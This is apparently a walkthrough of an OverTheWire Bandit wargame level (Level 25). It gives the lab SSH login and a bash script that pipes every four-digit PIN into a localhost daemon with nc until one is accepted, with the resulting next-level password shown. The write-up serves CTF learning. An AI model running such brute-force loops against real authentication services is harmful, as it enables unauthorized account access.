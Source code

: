 # Level 25

## Objectives

1. SSH to `bandit24`
2. Brute force the pin-code daemon listening on `30002` using password as input

### Objective 1

* Username: `bandit24`
* Password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
* Port: `2220`  
* IP/Hostname: `bandit.labs.overthewire.org`

```sh
user@localhost:~$ ssh -p 2220 bandit24@bandit.labs.overthewire.org
```

> Success!

### Objective 2

Let's see what we get when we give it a random number.

```sh
bandit24@bandit:~$ echo "0000" | nc localhost 30002
```

So we need to force a disconnect after each `nc`.

Now we need to make a brute force script.

```sh
#!/bin/bash

PASSWD='UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ'
LOG='/tmp/bruter.txt'

touch $LOG

for j in {0000..5000}
do
    str1="$PASSWD $j"
    echo $str1
done | nc localhost 30002 > $LOG

cat $LOG | grep -v Wrong

sleep 5

for i in {5000..9999}
do
    str2="$PASSWD $i"
    echo $str2
done | nc 127.0.0.1 30002 > $LOG

grep -v Wrong $LOG
```

Use an editor to make a script in `/tmp`.

```sh
bandit24@bandit:~$ nano /tmp/bruteforcepin.sh
Unable to create directory /home/bandit24/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit24@bandit:~$ bash /tmp/bruteforcepin.sh
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```